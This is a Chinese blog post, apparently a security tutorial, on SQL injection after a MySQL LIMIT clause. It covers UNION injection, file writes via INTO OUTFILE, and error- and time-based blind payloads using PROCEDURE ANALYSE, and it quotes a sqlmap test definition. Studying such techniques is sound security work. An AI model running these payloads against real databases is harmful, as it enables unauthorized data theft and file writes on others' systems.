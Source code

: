 ```yaml
---
layout: post
title:  "SQL注入之limit注入"
date:   2018-01-25 21:41:45 +0800
categories: [SQL注入, limit注入]
---
```

> 这个limit注入为何拿出来提呢？定有它的特别之处

# 0X00 官方文档中的 limit
```sql
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
    [INTO OUTFILE 'file_name'
        [CHARACTER SET charset_name]
        export_options
      | INTO DUMPFILE 'file_name'
      | INTO var_name [, var_name]]
    [FOR UPDATE | LOCK IN SHARE MODE]]
```
和之前的order by注入的文档是同一个，都是介绍select的文档，不过和order by不同的是limit后面可以跟的内容中没有表达式，并且可以使用的关键字有限只有两个“INTO file”、“procedure” 

# 0X01 单独的limit
单独的limit的出现的话，其实并不常见，其的利用方式除了前面介绍的limit后面的两个关键字外，还可以使用union，union是mysql 4.0版本出现的一个新的特性，也就是说union使用条件是mysql>4.0，由于mysql 4.0出现在2003年，现在遇到的mysql基本都可以满足这个条件，利用的话就像下面这样

```sql
mysql> select * from users limit 1 union select 1,2,3;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | Dumb     | Dumb     |
|  1 | 2        | 3        |
+----+----------+----------+
```
没什么特别的

# 0X02 order by之后的limit
首先介绍下为什么这种情况的话比较的多，原因其实也简单，如果order by出现在union的子句中，那么必须加上limit，否则order by不生效，官方文档说明如下

```
Use of ORDER BY for individual SELECT statements implies nothing about the order in which the rows appear in the final result because UNION by default produces an unordered set of rows. Therefore, the use of ORDER BY in this context is typically in conjunction with LIMIT, so that it is used to determine the subset of the selected rows to retrieve for the SELECT, even though it does not necessarily affect the order of those rows in the final UNION result. If ORDER BY appears without LIMIT in a SELECT, it is optimized away because it will have no effect anyway.
```

这种情况下我们将不能再利用union，原因很简单，详见[SQL注入之order by注入](http://lietolive.com/sql/order%20by%E6%B3%A8%E5%85%A5/2018/01/13/SQL%E6%B3%A8%E5%85%A5orderBy%E6%B3%A8%E5%85%A5.html)。于是，我们的选择只剩下“INTO file” 和 “procedure”

1. “INTO file”写文件

```sql
mysql> select * from users order by id limit 1 into outfile '/xxxxx/1.txt';
```

2. procedure

```shell
PROCEDURE ANALYSE() is deprecated as of MySQL 5.7.18, and is removed in MySQL 8.0
```
但是之前wooyunZone上得出的结论是只有5.0<mysql<5.66才可以，所以我本地也没有复线，总结下利用方式吧

报错
```shell
select * from users order by id limit 1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
```

时间 - 只能使用BENCHMARK
```shell
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```

# 0X03 sqlmap 表现情况

```shell
    <test>
        <title>MySQL &gt;= 5.1 time-based blind (heavy query) - PROCEDURE ANALYSE (EXTRACTVALUE)</title>
        <stype>5</stype>
        <level>3</level>
        <risk>2</risk>
        <clause>1,2,3,4,5</clause>
        <where>1</where>
        <vector>PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])))),1)</vector>
        <request>
            <payload>PROCEDURE ANALYSE(EXTRACTVALUE([RANDNUM],CONCAT('\',(BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]'))))),1)</payload>
        </request>
        <response>
            <time>[SLEEPTIME]</time>
        </response>
        <details>
            <dbms>MySQL</dbms>
            <dbms_version>&gt;= 5.0.12</dbms_version>
        </details>
    </test>
```
从这段payload中可以发现，sqlmap是拥有这种场景下的检测能力的，并且判断的mysql版本和wooyunZone中所讨论的一致

# 0X04 参考

1、[Testing for MySQL](https://www.owasp.org/index.php/Testing_for_MySQL)

2、[mysql4.0 4.1 5.0 三个版本的特性对比](http://kong1616.iteye.com/blog/674561)

3、[UNION Syntax](https://dev.mysql.com/doc/refman/5.7/en/union.html)

4、[Using PROCEDURE ANALYSE](https://dev.mysql.com/doc/refman/5.7/en/procedure-analyse.html)

5、[技术分享：Mysql注入点在limit关键字后面的利用方法](http://www.freebuf.com/articles/web/57528.html)